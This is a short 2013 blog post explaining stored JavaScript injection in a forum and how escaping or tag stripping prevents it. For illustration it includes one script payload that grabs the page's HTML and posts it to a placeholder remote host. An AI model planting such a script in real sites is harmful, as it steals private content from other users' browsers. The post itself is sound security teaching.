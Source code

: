 ```yaml
---
layout: post
title: "Javascript injection attack - what is it and how to prevent"
date: 2013-06-15 20:46
comments: true
categories: [javascript, security, injection attack]
---
```

Yes we've heard of the term "Javascript injection" from time to time but have you ever wonder how it actually works? In this post I will use a very simple example to demostrate how a potential attacker can take advantage of this kind of vulnerability.

Let's say we build a user forum which only registered user can view its content. One of the basic feature of a forum is to allow user to create new topics or reply to existing topics. In either case we need to create some html form to accept user inputs. We are very aware of MySQL injection so we use prepared statement to store topic content into the database. All is well but we

* forgot to sanitize the topic body (and/or other related fields such as subject) before storing to database
* render content from database as is without using proper escaping. So if an attacker enters the following content into the topic body:


```html
Hello there.
<script type="text/javascript">
	var _info=$('body').html();
	$.post('http://some.remote.host/',{data:_info});
</script>

```
When the topic gets rendered in a normal user's browser, user will see "Hello there" in the topic content. Under the hood the page's html source code (which might contains some information only the user should  have access to) will be sent to a remote host that the attacker has access to without user's awareness as the js code is not rendered (but it does get executed in user's browser). If $('body') contains too much info, the attacker can choose to steal information specific element (or elements).

To prevent this kind of attack, we need to either:
Properly escape content from the server when rendering in the browser.
or
Strip tags such as `<script>`, or only allow tags such as p, br when storing user input into database.
